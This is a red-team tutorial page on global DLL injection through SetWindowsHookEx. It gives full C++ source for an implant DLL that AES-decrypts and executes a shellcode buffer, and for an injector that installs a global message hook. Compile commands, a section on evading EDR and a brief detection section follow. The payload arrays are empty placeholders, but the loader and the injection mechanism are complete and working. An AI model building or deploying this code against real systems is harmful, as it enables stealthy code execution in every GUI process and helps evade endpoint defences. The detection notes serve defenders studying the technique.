

<Callout type="info" title="Overview">
**Global Hooking** is a stealthy DLL injection technique mapped to **MITRE ATT&CK T1056.004** and **T1055**. 

The Windows API `SetWindowsHookEx` is designed to allow applications to intercept system messages (e.g., keyboard input, mouse events). However, if a hook is installed globally (by passing `0` as the thread ID), the Windows kernel forces the specified DLL to be loaded into **every process** that processes messages in the current desktop.

This technique is highly favored by Red Teams because it completely avoids the noisy `CreateRemoteThread` or `NtMapViewOfSection` APIs, relying instead on the legitimate Windows message-passing infrastructure.
</Callout>


## Execution Flowchart



## Code Implementation & Compilation

This attack requires two components. Each tab below contains the source code for the component along with its specific compilation command.

<Tabs>
  <Tab title="Implant DLL (implant.cpp)">
    The DLL must export a valid `HOOKPROC` function (`Dummy`) with the correct signature: `LRESULT CALLBACK(int, WPARAM, LPARAM)`. If the signature is wrong, the target process will crash due to stack corruption.

    ```cpp Source Code (implant.cpp)
    #include <windows.h>
    #include <wincrypt.h>
    #include <stdio.h>
    #include <psapi.h>
    #pragma comment (lib, "crypt32.lib")
    #pragma comment (lib, "advapi32")

    // Debug output helper
    void DebugOut(const char* fmt, ...) {
        char dbg_out[4096];
        va_list argp;
        va_start(argp, fmt);
        vsprintf_s(dbg_out, fmt, argp);
        va_end(argp);
        OutputDebugStringA((LPCSTR)dbg_out);
    }

    int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) return -1;
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) return -1;
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) return -1;
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) return -1;
        if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&payload_len)) return -1;

        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        return 0;
    }

    unsigned char payload[] = { 0 }; //fixme
    unsigned char key[] = {0}; //fixme

    void Go(void) {
        void* exec_mem;
        BOOL rv;
        DWORD oldprotect = 0;
        unsigned int payload_len = sizeof(payload);

        exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        AESDecrypt((char*)payload, payload_len, (char*)key, sizeof(key));
        RtlMoveMemory(exec_mem, payload, payload_len);
        rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

        if (rv != 0) {
            HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
            WaitForSingleObject(th, -1);
        }
    }

    // CRITICAL: A valid HOOKPROC signature is required to prevent stack corruption.
    // It must pass the message to the next hook in the chain.
    extern "C" __declspec(dllexport) LRESULT CALLBACK Dummy(int code, WPARAM wParam, LPARAM lParam) {
        return CallNextHookEx(NULL, code, wParam, lParam);
    }

    BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved) {
        char ModuleName[1000];
        DWORD ModuleNameSize = 1000;

        switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            GetModuleBaseNameA(GetCurrentProcess(), 0, ModuleName, ModuleNameSize);
            DebugOut("ImplantDLL injected into %s!\n", ModuleName);
            // CreateThread(0, 0, (LPTHREAD_START_ROUTINE) Go, 0, 0, 0);
            break;
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
        }
        return TRUE;
    }
    ```

    <Note title="Compilation (MSVC)">
      ```bash
      cl.exe /nologo /Ox /MT /W0 /GS- /LD /Tp implant.cpp /link /OUT:implant.dll /SUBSYSTEM:WINDOWS crypt32.lib advapi32.lib psapi.lib
      ```
      <br/>
      The `/LD` flag tells the compiler to build a Dynamic Link Library. `crypt32.lib` is required for the AES CryptoAPI.
    </Note>
  </Tab>

  <Tab title="Injector (hooker.cpp)">
    The injector loads the DLL into its own memory space, finds the exported `Dummy` function, and registers it as a global hook. By passing `0` as the `dwThreadId`, the hook applies to all GUI processes.

    ```cpp Source Code (hooker.cpp)
    #include <windows.h>
    #include <stdio.h>
    #include <tlhelp32.h>

    #pragma comment(lib, "user32.lib")

    // Helper to find a process by name (optional for global hooks, useful for local)
    DWORD FindTarget(const WCHAR* procname) {
        HANDLE hProcSnap;
        PROCESSENTRY32W pe32;
        DWORD pid = 0;

        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

        pe32.dwSize = sizeof(PROCESSENTRY32W);

        if (Process32FirstW(hProcSnap, &pe32)) {
            do {
                if (lstrcmpiW(procname, pe32.szExeFile) == 0) {
                    pid = pe32.th32ProcessID;
                    break;
                }
            } while (Process32NextW(hProcSnap, &pe32));
        }

        CloseHandle(hProcSnap);
        return pid;
    }

    // Helper to find a thread by PID (optional for local hooks)
    DWORD FindThreadID(DWORD pid) {
        DWORD tid = 0;
        THREADENTRY32 thEntry;

        thEntry.dwSize = sizeof(thEntry);
        HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
        if (Snap == INVALID_HANDLE_VALUE) return 0;

        if (Thread32First(Snap, &thEntry)) {
            do {
                if (thEntry.th32OwnerProcessID == pid) {
                    tid = thEntry.th32ThreadID;
                    break;
                }
            } while (Thread32Next(Snap, &thEntry));
        }

        CloseHandle(Snap);
        return tid;
    }

    int wmain(void) {
        // Global hooking does not require a specific thread ID, 
        // but finding the target is useful for local hooking.
        // DWORD tid = FindThreadID(FindTarget(L"notepad.exe"));
        
        wprintf(L"[+] Loading implant.dll...\n");
        HMODULE hLib = LoadLibraryW(L"implant.dll");
        if (!hLib) {
            wprintf(L"[-] LoadLibraryW failed. Error: %lu\n", GetLastError());
            return -1;
        }

        HOOKPROC hHookProc = (HOOKPROC)GetProcAddress(hLib, "Dummy");
        if (!hHookProc) {
            wprintf(L"[-] GetProcAddress failed. Error: %lu\n", GetLastError());
            return -1;
        }

        // Set global hook (dwThreadId = 0 means all threads in the current desktop)
        HHOOK hDebugHook = SetWindowsHookExW(WH_GETMESSAGE, hHookProc, hLib, 0);
        if (!hDebugHook) {
            wprintf(L"[-] SetWindowsHookExW failed. Error: %lu\n", GetLastError());
            return -1;
        }

        wprintf(L"[+] Global Hook installed. Check Process Hacker...\n");
        wprintf(L"[+] Press Enter to unhook and exit.\n");
        getchar(); // Pause to keep the hook active
        
        UnhookWindowsHookEx(hDebugHook);
        return 0;
    }
    ```

    <Note title="Compilation (MSVC)">
      ```bash
      cl.exe /nologo /Ox /MT /W0 /GS- /Tp hooker.cpp /link /OUT:hooker.exe /SUBSYSTEM:CONSOLE user32.lib
      ```
      <br/>
      The `user32.lib` is explicitly linked because `SetWindowsHookExW` resides in `user32.dll`.
    </Note>
  </Tab>
</Tabs>

## How It Works

1. **DLL Loading in Injector**
   The injector calls `LoadLibraryW` to map the Implant DLL into its own address space. This is necessary because `SetWindowsHookEx` requires the module handle (`HMODULE`) of the DLL containing the hook procedure.

2. **Hook Registration**
   The injector calls `SetWindowsHookExW` with `WH_GETMESSAGE` (intercepts messages retrieved by `GetMessage`). By passing `0` as the `dwThreadId`, the hook becomes global.

3. **System-Forced Injection**
   When any process in the desktop calls `GetMessage` or `PeekMessage`, the Windows kernel checks if the global hook DLL (`implant.dll`) is loaded. If not, the kernel automatically maps it into the process space. This completely bypasses the need for `CreateRemoteThread` or `WriteProcessMemory`.

4. **Hook Procedure Execution**
   Once the DLL is mapped, the OS calls the `Dummy` hook procedure. The `Dummy` function **must** have the correct signature `(int, WPARAM, LPARAM)` and return `CallNextHookEx` to maintain the message chain. If it doesn't, the target process will crash.

5. **Payload Decryption & Execution**
   Inside the DLL's `DllMain`, the `Go` function (commented out in the template) can be triggered via `CreateThread`. It decrypts the AES payload and executes it.

## OpSec & Red Team Perspective

<Expandable title="Why this technique is highly evasive">
- **No Process Injection APIs:** The injector never touches `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, or `CreateRemoteThread`. This avoids the most heavily monitored EDR telemetry vectors.
- **Legitimate API Usage:** `SetWindowsHookEx` is a standard API used by legitimate software (like keyloggers, screen readers, and antivirus). It is less suspicious than manual mapping.
- **Execution Context:** The payload runs inside the context of legitimate Windows processes (like `explorer.exe`, `notepad.exe`, etc.), blending in with normal system activity.
</Expandable>

<Callout type="warning" title="OpSec Drawbacks">
While stealthy, Global Hooking has major drawbacks:
- **Instability:** It loads the DLL into *every* GUI process. If the DLL has a bug or a bad export signature, the entire system will crash (blue screen or repeated process crashes).
- **Requires GUI:** The target processes must process window messages. Background services or console apps without a message loop will not load the hook.
- **Signature Requirements:** Modern EDRs flag unsigned binaries setting global hooks.
</Callout>

## Defense & Detection

<Callout type="error" title="Blue Team Perspective">
Global hooking is heavily monitored by EDRs due to its use in keyloggers and malware.

- **API Hooking:** EDRs hook `SetWindowsHookExW` to inspect the `dwThreadId` parameter. If it is `0` (global), and the calling process is not a known legitimate application, it is flagged as suspicious.
- **Sysmon Event ID 8 (CreateRemoteThread):** While `CreateRemoteThread` is not explicitly called by the injector, Windows internally uses thread creation to dispatch the hook messages to the target processes, which can generate this event.
- **Memory Telemetry:** When the Implant DLL executes its `Go` function, it still performs `VirtualAlloc` -> `VirtualProtect` -> `CreateThread` inside the target process, which EDRs catch via `ObRegisterCallbacks` and API hooks.
</Callout>
